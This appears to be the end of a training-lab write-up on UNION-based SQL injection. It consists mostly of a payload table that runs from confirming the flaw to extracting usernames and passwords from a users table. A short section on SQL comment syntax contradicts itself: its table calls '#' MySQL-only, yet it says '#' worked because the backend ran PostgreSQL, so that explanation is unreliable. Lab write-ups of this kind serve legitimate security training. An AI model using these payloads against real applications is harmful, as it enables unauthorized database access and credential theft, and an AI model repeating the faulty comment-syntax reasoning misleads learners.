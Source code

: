 ## 📋 Summary of Payloads Used

| Goal | Payload |
|------|---------|
| Confirm vuln | `'` |
| Check column count | `' ORDER BY 1%23` through `' ORDER BY 3%23` |
| UNION select test | `' UNION SELECT NULL,NULL%23` |
| Identify visible column | `' UNION SELECT NULL,'a'%23` |
| Get DB version (PostgreSQL) | `' UNION SELECT NULL,version()%23` |
| List all tables | `' UNION SELECT NULL,table_name FROM information_schema.tables%23` |
| Get columns of users table | `' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users_oxbwnm'%23` |
| Extract usernames | `' UNION SELECT NULL,username_avgzhq FROM users_oxbwnm%23` |
| Extract username + password | `' UNION SELECT NULL,username_avgzhq||'~'||password_syflaz FROM users_oxbwnm%23` |

## 🧠 Hidden Detail: Why `--` Failed But `#` Worked

In SQL, both `--` and `#` are valid comment indicators — but **only in certain databases**:

| Comment Style | Supported By | Notes |
|---------------|--------------|-------|
| `--`          | MySQL, MSSQL, PostgreSQL | Requires space after `--` in some cases |
| `#`           | MySQL only   | Not supported by MSSQL or PostgreSQL |

In this lab:
- `--` was likely filtered or sanitized by the backend.
- `#` worked because the backend used **PostgreSQL**, which supports it when encoded as `%23`.
- We used `%23` (URL-encoded `#`) to bypass filters.

## ✅ Final Tip

Always adapt your payloads based on:
- What the app displays
- How many columns exist
- Which DBMS is running
- Whether comments or keywords are filtered

Every lab teaches you something new — keep going!
Happy hacking! 🔥🕵️‍♂️🛡️


